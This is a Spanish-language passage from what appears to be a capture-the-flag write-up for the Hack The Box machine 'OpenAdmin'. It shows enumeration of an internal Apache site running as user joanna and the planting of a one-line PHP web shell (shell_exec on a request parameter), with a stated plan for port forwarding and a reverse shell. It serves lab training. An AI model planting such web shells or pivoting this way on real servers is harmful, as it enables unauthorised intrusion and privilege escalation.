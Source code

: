 
Vemos que el usuario **jimmy** es propietarios de archivos alojados en la ruta `/var/www/internal`, así que vamos a echarles un ojo.

```bash
jimmy@openadmin:/var/www/internal$ ls -l
total 12
-rwxrwxr-x 1 jimmy internal 3229 Nov 22  2019 index.php
-rwxrwxr-x 1 jimmy internal  185 Nov 23  2019 logout.php
-rwxrwxr-x 1 jimmy internal  339 Nov 23  2019 main.php
jimmy@openadmin:/var/www/internal$ 
```

Vemos otro recurso web, sin embargo, no es lo que nosotros vemos por el puerto 80, así que trataremos de ver bajo que puerto correo este recurso.

```bash
jimmy@openadmin:/var/www/internal$ cd /etc/apache2/sites-available/
jimmy@openadmin:/etc/apache2/sites-available$ ls -l
total 16
-rw-r--r-- 1 root root 6338 Jul 16  2019 default-ssl.conf
-rw-r--r-- 1 root root  303 Nov 23  2019 internal.conf
-rw-r--r-- 1 root root 1329 Nov 22  2019 openadmin.conf
jimmy@openadmin:/etc/apache2/sites-available$ cat internal.conf 
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
jimmy@openadmin:/etc/apache2/sites-available$
```

Tenemos que este sitio web corre bajo el puerto 52846, el cual no es visible desde afuera y está interno en la máquina. Además, el usuario asignado es **joanna**.

```bash
jimmy@openadmin:/etc/apache2/sites-available$ netstat -nat | grep 52846
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN     
jimmy@openadmin:/etc/apache2/sites-available$
```

Como el usuario asignado es **joanna**, podriamos crear una shell en el directorio, hacer un ***Remote Port Forwarding*** para acceder a nuestra shell y entablarnos una reverse shell, que en este caso sería como el usuario asignado.

```bash
jimmy@openadmin:/var/www/internal$ ls -l
total 16
-rwxrwxr-x 1 jimmy internal 3229 Nov 22  2019 index.php
-rwxrwxr-x 1 jimmy internal  185 Nov 23  2019 logout.php
-rwxrwxr-x 1 jimmy internal  339 Nov 23  2019 main.php
-rw-rw-r-- 1 jimmy jimmy      66 Jan  3 04:35 shell.php
jimmy@openadmin:/var/www/internal$ cat shell.php 
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
jimmy@openadmin:/var/www/internal$
```

